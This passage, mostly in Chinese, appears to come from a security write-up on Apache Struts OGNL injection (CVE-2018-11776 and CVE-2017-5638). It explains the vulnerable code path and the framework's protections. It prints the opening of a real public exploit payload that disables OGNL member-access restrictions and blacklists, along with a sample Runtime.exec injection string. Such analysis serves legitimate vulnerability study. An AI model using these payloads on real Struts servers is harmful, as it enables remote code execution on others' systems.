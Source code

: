 1.**执行**方法也调用`super.execute(invocation);`

2.然后这个方法被称为:

```
/**
Implementation of the `execute` method from the `Result` interface. This will call the abstract method
{@link #doExecute(String, ActionInvocation)} after optionally evaluating the location as an OGNL evaluation
*/
public void execute(ActionInvocation invocation) throws Exception {
    lastFinalLocation = conditionalParse(location, invocation);
    doExecute(lastFinalLocation, invocation);
}
```

```
/**
Parses the parameter for OGNL expressions against the valuestack
…
*/
protected String conditionalParse(String param, ActionInvocation invocation)
if (parse && param != null && invocation != null) {
    return TextParseUtil.translateVariables(
        param,
        invocation.getStack(),
        new EncodingParsedValueEvaluator());
```

结果是执行任意 OGNL 表达式的可能性。关于这个问题的更多细节是[这里](https://lgtm.com/blog/apache_struts_CVE-2018-11776)和[这里](https://lgtm.com/blog/apache_struts_CVE-2018-11776-part2)。其要点是，当使用动作链时，来自用户的名称空间被 OGNL 解析。

## 8.了解 OGNL 注入有效载荷

如果你想知道为什么公共漏洞中的有效载荷不是这样的:`%{@java.lang.Runtime@getRuntime().exec('command')}`，有两个原因。一个是指 Struts 维护者实现的保护机制，另一个与功能相关(读取命令的输出或使其跨平台)。

有用的细节可以在[这一页](https://lgtm.com/blog/apache_struts_CVE-2018-11776-exploit)上找到，但这里有一个简短的总结:

1.  在有效载荷执行期间作为`_memberAccess`可用的`SecurityMemberAccess`类决定 OGNL 可以做什么，但是可以选择使用更宽松的`DefaultMemberAccess`类。

    1.  另一种保护是将类和包名列入黑名单。

    2.  不同的缓解可能是对调用静态方法的限制——这可以通过`_memberAccess`类的`allowStaticMethodAccess`字段来实现。

### CVE-2017-5638 和 CVE-2018-11776 有效载荷:

```
(#_='multipart/form-data').

(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).

(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).

(#context['xwork.MethodAccessor.denyMethodExecution']=false).

(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).>

(#ognlUtil.getExcludedPackageNames().clear()).

(#ognlUtil.getExcludedClasses().clear()).

(#context.setMemberAccess(#dm)))).

```